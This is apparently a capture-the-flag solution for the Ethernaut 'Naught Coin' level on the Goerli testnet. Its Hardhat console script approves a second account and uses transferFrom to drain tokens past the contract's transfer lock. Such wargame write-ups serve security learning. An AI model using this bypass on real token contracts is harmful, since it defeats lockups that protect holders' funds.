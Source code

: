 # Naught Coins

[Naught Coins](https://ethernaut.openzeppelin.com/level/0x36E92B2751F260D6a4749d7CA58247E7f8198284)

Contract address: <BR />
``0x8060CEbcc7f456df5e43ca89B0c574fd61c8Bf55``

<BR />

## Live Attack

```BASH
npx hardhat compile
npx hardhat console --network goerli
```

```JS
accounts = await ethers.getSigners()
accounts[0].address

// Connect to Token contract on-chain
TokenFactory = await ethers.getContractFactory("NaughtCoin")
token = await TokenFactory.attach("0x8060CEbcc7f456df5e43ca89B0c574fd61c8Bf55")

(await token.balanceOf(accounts[0].address)).toString()
all = await token.balanceOf(accounts[0].address)

// Allow other account to transfer our tokens
await token.connect(accounts[0]).approve(accounts[1].address, all)

// Give some Goerli to 2nd Account
valueToSend = ethers.utils.parseEther('0.1')
await accounts[0].sendTransaction({to: accounts[1].address, value: valueToSend})

// Transfer out all balance
await token.connect(accounts[1]).transferFrom(accounts[0].address, accounts[1].address, all)
(await token.balanceOf(accounts[0].address)).toString()
(await token.balanceOf(accounts[1].address)).toString()
```